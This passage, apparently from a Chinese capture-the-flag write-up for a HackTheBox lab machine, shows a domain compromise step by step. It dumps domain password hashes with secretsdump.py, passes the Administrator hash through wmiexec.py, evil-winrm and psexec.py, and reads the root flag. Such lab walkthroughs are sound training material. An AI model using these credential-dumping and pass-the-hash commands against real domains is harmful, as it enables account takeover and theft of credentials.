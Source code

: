 
### 步骤三：

secretsdump.py

```
secretsdump.py zf1yolo:zf1yolo@10.10.10.161
```

得到 administrator 的 hash

```
htb.local\Administrator:500:aad3b435b51404eeaad3b435b51404ee:32693b11e6aa90eb43d32c72a07ceea6:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:819af826bb148e603acb0f33d17632f8:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
```



横向移动

```bash
wmiexec.py -hashes aad3b435b51404eeaad3b435b51404ee:32693b11e6aa90eb43d32c72a07ceea6 htb.local/administrator@10.10.10.161
```



```bash
evil-winrm -i 10.10.10.161 -u administrator -p aad3b435b51404eeaad3b435b51404ee:32693b11e6aa90eb43d32c72a07ceea6
```



```
psexec.py "administrator"@10.10.10.161 -hashes aad3b435b51404eeaad3b435b51404ee:32693b11e6aa90eb43d32c72a07ceea6
```



```
c:\Users\Administrator\Desktop> type root.txt                                                                08a7ac973fad9a661280c035edc607de
```


